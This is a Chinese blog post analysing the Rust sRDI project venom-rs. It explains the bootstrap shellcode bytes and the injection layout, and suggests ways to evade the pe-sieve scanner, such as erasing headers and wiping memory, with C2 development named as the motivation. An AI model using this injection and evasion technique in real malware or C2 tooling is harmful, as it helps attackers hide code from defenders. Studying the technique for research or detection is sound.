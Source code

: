 ```yaml
---
title: srdi-rs项目学习
date: '2025-06-02 21:16:34'
permalink: /post/srdirs-project-learning-z1ry7kq.html
layout: post
published: true
categories:
  - 工具开发
tags:
  - shellcode
  - 安全工具
---
```




# srdi-rs项目学习

本篇文章对 [memN0ps/venom-rs: Rusty Injection - Shellcode Reflective DLL Injection (sRDI) in Rust](https://github.com/memN0ps/venom-rs) 进行分析学习，该项目完成了 rust 下 rdi 的实现，在写 c2 的时候有一定的参考意义。

## 项目分析

### 项目总体分析

项目目录如下所示，共有四个文件夹，分别为 generate_shellcode、inject、payload、reflective_loader，其中 inject 顾名思义是注入模块，是作者为了方便测试生成的 shellcode 所写的，这里不多做分析，payload 模块也就是要执行的功能模块，作者在这里写了弹窗功能，也不多做分析。

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602212116-8e3h6og.png)

### reflective_loader

该部分实现了一个名为 `loader` ​的导出函数，用于反射加载 payload，和常规的 rdi 一样，其流程如下图所示：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602213922-ib32yct.png)

在这里不多解释流程，但是在最后我们会讨论一些优化的点。

### generate_shellcode

generate_shellcode 这一部分是该项目的核心所在，而该部分的核心就是 `Bootstrap` ​的构造，下面对 `Bootstrap` ​的构造进行详细分析。

首先 shellcode 需要找到自身在内存中的位置，通过 `call 0x00`​ 的方式，将下一条指令的位置压入栈中，进而 `pop rcx;mov r8, rcx`​,将位置保存到 rcx 和 r8 中。

```rust
    //
    // Step 1) Save the current location in memory for calculating addresses.
    //

    // call 0x00 (This will push the address of the next function to the stack)
    bootstrap.push(0xe8);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);

    // pop rcx - This will pop the value we saved on the stack into rcx to capture our current location in memory
    bootstrap.push(0x59);

    // mov r8, rcx - We copy the value of rcx into r8 before we start modifying RCX
    bootstrap.push(0x49);
    bootstrap.push(0x89);
    bootstrap.push(0xc8);
```

紧接着，对齐栈指针并且为函数调用开辟影子空间。`push rsi;mov rsi, rsp;and rsp, 0x0FFFFFFFFFFFFFFF0`​，先备份 rsi 和 rsp，然后将 rsp 按照 16 字节对齐（windows 调用约束规定），`sub rsp, 0x30`​ ​开辟影子空间，因为 `loader`​ ​函数共有六个参数，所以要预留 `6 × 8 = 48`​ ​字节空间，即使前四个参数通过寄存器传参这里也需要预留空间。

```rust
    // Step 2) Align the stack and create shadow space
    // push rsi - save original value
    bootstrap.push(0x56);

    // mov rsi, rsp - store our current stack pointer for later
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xe6);

    // and rsp, 0x0FFFFFFFFFFFFFFF0 - Align the stack to 16 bytes
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xe4);
    bootstrap.push(0xf0);

    // sub rsp, 0x30 (48 bytes) - create shadow space on the stack, which is required for x64. A minimum of 32 bytes for rcx, rdx, r8, r9. Then other params on stack
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xec);
    bootstrap.push(6 * 8); //6 args that are 8 bytes each
```

然后我们开始参数传递，`loader` ​函数的签名为：`pub unsafe extern "system" fn loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)`​，

首先是第 5 个参数，是 `_shellcode_bin`​，其实也就是 shellcode 的其实位置，将之前 rcx 中的值减去 5 即可，这个参数在 `loader`​ ​函数中并没有使用，但是我们可以自己加上清理内存的步骤。然后是第六个参数，其实就是一个 flag 值，用来判断是执行 `DllMain`​ ​还是其他导出函数。

```rust
    // Step 3) Setup reflective loader parameters: Place the last 5th and 6th args on the stack since, rcx, rdx, r8, r9 are already in use for our first 4 args.
    // mov qword ptr [rsp + 0x20], rcx (shellcode base + 5 bytes) - (32 bytes) Push in arg 5
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0x4C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg
    // sub qword ptr [rsp + 0x20], 0x5 (shellcode base) - modify the 5th arg to get the real shellcode base
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0x6C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg

    bootstrap.push(5); // minus 5 bytes because call 0x00 is 5 bytes to get the allocate memory from VirtualAllocEx from injector
    // mov dword ptr [rsp + 0x28], <flags> - (40 bytes) Push arg 6 just above shadow space
    bootstrap.push(0xC7);
    bootstrap.push(0x44);
    bootstrap.push(0x24);
    bootstrap.push(5 * 8); // 6th arg
    bootstrap.append(&mut flags_value.to_le_bytes().to_vec().clone());
```

然后是第四个参数 `user_data_len`​，这是传递给 payload 的参数的长度，第三个参数 `user_data`​，该参数的位置在 srdi 的最后，还记得我们前面 r8 中已经存了 `shellcode的位置+5`​，所以我们再加上剩下的 bootstrap 以及 loader、payload 就找到 userdata 了，即 `add r8,(BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() + payload_bytes.len();`​

然后是第二个参数`function_hash`​，要执行的函数的hash，直接mov就行了。第一个参数`payload_dll`​，payload的位置，`add rcx, (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len()`​，道理和前面`user_data`​一样，不再多讲。

```rust
    // Step 4) Setup reflective loader parameters: Place the 1st, 2nd, 3rd and 4th args in rcx, rdx, r8, r9

    // mov r9, <parameter_length> - copy the 4th parameter, which is the length of the user data into r9
    bootstrap.push(0x41);
    bootstrap.push(0xb9);
    let parameter_length = parameter_value.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut parameter_length.to_le_bytes().to_vec().clone());

    // add r8, <parameter_offset> + <payload_length> - copy the 3rd parameter, which is address of the user function into r8 after calculation
    bootstrap.push(0x49);
    bootstrap.push(0x81);
    bootstrap.push(0xc0); // We minus 5 because of the call 0x00 instruction
    let parameter_offset =  (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32 + payload_bytes.len() as u32;
    bootstrap.append(&mut parameter_offset.to_le_bytes().to_vec().clone());

    // mov edx, <prameter_hash> - copy the 2nd parameter, which is the hash of the user function into edx
    bootstrap.push(0xba);
    bootstrap.append(&mut function_hash.to_le_bytes().to_vec().clone());

    // add rcx, <payload_offset> - copy the 1st parameter, which is the address of the user dll into rcx after calculation
    bootstrap.push(0x48);
    bootstrap.push(0x81);
    bootstrap.push(0xc1); // We minus 5 because of the call 0x00 instruction
    let payload_offset = (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut payload_offset.to_le_bytes().to_vec().clone());
```

接下来就是`call <loader_offset>`​，同样的按照上面的方法计算出loader函数和当前位置偏移即可偏移，最后恢复寄存器的值，`ret`​即可。

End Bootstrap之后继续构造shellcode，后面分别添加上loader、payload、user_data即可。

```rust
    // Step 5) Call reflective loader function

    // call <loader_offset> - call the reflective loader address after calculation
    bootstrap.push(0xe8);
    // This must u32 or it breaks assembly
    let loader_address = (BOOTSTRAP_TOTAL_LENGTH - bootstrap.len() as u32 - 4 as u32) + loader_offset as u32;    
    bootstrap.append(&mut loader_address.to_le_bytes().to_vec().clone());

    // Step 6) Reset the stack to how it was and return to the caller

    // mov rsp, rsi - Reset our original stack pointer
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xf4);

    // pop rsi - Put things back where we left them
    bootstrap.push(0x5e);

    // ret - return to caller and resume execution flow (avoids crashing process)
    bootstrap.push(0xc3);

    // End Bootstrap

 	let mut shellcode: Vec<u8> = Vec::new();

    // Bootstrap shellcode populated with the correct offsets and values
    shellcode.append(&mut bootstrap);

    // Reflective Loader (RDI)
    shellcode.append(loader_bytes);

    // Payload DLL (Existing DLL)
    shellcode.append(payload_bytes);

    // Parameter Value (User-Data)
    shellcode.append(&mut parameter_value.as_bytes().to_vec());
```

x64dbg下看bootstrap：

![](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/1719661787005-d85880a1-0a74-474e-8fa1-e5a54098c662.png)

最后整体布局如下：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250603140356-6svfdxx.png)

## 优化的点

下面讨论一些优化的点：

1. 在将payload复制的时候，文件头可以不用复制，擦除文件头
2. 修改内存段属性，注意内存属性的分配
3. 我们在`loader`​函数中传参，传的`_shellcode_bin`​参数并没有使用，可以利用这个参数将旧内存进行清理，可以在loader中清理BootStrap的，然后在新内存空间的payload中清理shellcode剩下的内存，或者直接在payload中清理整个shellcode

经过优化可达到bypass pe-sive的效果：

![82216cb6e7801822d61bdd009518ed5a](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/82216cb6e7801822d61bdd009518ed5a-20250603142108-w1aaxas.png)

‍
